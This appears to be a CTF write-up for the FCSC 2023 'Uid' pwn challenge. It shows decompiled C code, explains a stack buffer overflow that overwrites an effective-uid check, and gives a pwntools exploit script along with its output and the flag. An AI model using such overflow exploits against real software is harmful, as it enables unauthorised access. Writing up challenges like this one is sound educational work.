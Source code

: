 ```yaml
---
title: "[FCSC 2023] - Uid"
date: 2023-04-30
author: me
categories: [writeups]
tags: ["Pwn", "FCSC"]
---
```


<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.2/css/all.min.css">
<link rel="stylesheet" href="/assets/css/lil-bootstrap.css">
<script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>

<br>

*On vous demande d'exploiter le binaire fourni pour lire le fichier flag.txt qui se trouve sur le serveur distant.*

`nc challenges.france-cybersecurity-challenge.fr 2100`

<i class="fas fa-paperclip"></i> [uid](/assets/attachments/uid)


<br>

_____________________________________________________

## Given file

We are given an ELF 64-bit binary file.

![0](/images/uid/file.png)

## Decompile

In order to decompile the binary, and get the pseudo-code of functions, I used <a href="https://fr.wikipedia.org/wiki/IDA_Pro_(logiciel)">IDA Decompiler</a>. So, I loaded the file and went to the `main` function.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[44]; // [rsp+0h] [rbp-30h] BYREF
  __uid_t v5; // [rsp+2Ch] [rbp-4h]

  v5 = geteuid();
  printf("username: ");
  fflush(_bss_start);
  __isoc99_scanf("%s", v4);
  if ( v5 )
    system("cat flop.txt");
  else
    system("cat flag.txt");
  return 0;
}
```

## Analyze

By reading this source code, we uderstand we have to find a way to go through the `else` condition, in order to get the flag. 

We can notice that the length of the user input isn't checked for `v4`. In this case, we can bypass the restricted size of the buffer and overwrite the `v5` value. So, this binary file is vulnerable to a Buffer Overflow attack.

> In Linux based systems, `uid_t` define a non-signed 32-bit integer (4 bytes). So we have to add 4 bytes in our payload in order to totally overwrite the `v5` value.
{: .prompt-tip }

In resume, we have to put 4 null bytes in `v5` for it to be considered as undefined and go into `else` condition.

## Exploit

Here is my python implementation with `pwntools` lib:

```python
from pwn import *

HOST, PORT = "challenges.france-cybersecurity-challenge.fr", 2100

r = remote(HOST, PORT)

offset = 44

payload = b"A" * offset
payload += p32(0)

r.sendline(payload)

print(r.recvall().decode())
```
So our payload will looks like this: `b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00\x00\x00\x00'`

Here is the `p32()` function documentation : <a href="https://docs.pwntools.com/en/stable/util/packing.html?highlight=p32#pwnlib.util.packing.p32" target="_blank">pwntools - p32</a>

## Flag

```
[x] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2100
[x] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2100: Trying 10.10.10.10
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2100: Done
[x] Receiving all data
[x] Receiving all data: 0B
[x] Receiving all data: 10B
[x] Receiving all data: 81B
[+] Receiving all data: Done (81B)
[*] Closed connection to challenges.france-cybersecurity-challenge.fr port 2100
username: FCSC{3ce9bedca72ad9c23b1714b5882ff5036958d525d668cadeb28742c0e2c56469}
```

> 🚩`FCSC{3ce9bedca72ad9c23b1714b5882ff5036958d525d668cadeb28742c0e2c56469}`